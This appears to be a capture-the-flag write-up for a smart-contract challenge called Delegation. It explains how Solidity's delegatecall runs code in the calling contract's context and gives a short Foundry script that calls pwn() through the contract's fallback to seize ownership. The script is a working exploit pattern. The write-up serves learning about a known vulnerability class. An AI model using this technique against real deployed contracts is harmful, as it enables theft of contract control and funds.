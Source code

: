# Delegation   
Our goal in this challenge is to claim ownership of the contract.
The purpose of this level is to understand how the `delegatecall` function works in Solidity.

To learn more about `delegatecall`, check out this resource: https://www.cyfrin.io/glossary/delegatecall-solidity-code-example.

The `delegatecall` function essentially "redirects" the execution flow to another contract, but it executes the code in the context of the calling contract. This means that any state changes (like changing the `owner`) will affect the calling contract, not the target contract.

In this case, we need to interact with the `Delegation` contract, which implements the `delegatecall` function. Our objective is to call the `pwn()` function from the `Delegate` contract, which will change the `owner` to the caller (us).

To automate this process, I created the following script: 
```solidity 
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
	address victim = /* place here the address of your instance */ ; 	
	
function run() public {
	vm.startBroadcast();
	(bool success, ) = victim.call(abi.encodeWithSignature("pwn()"));
	vm.stopBroadcast();
}
}
```
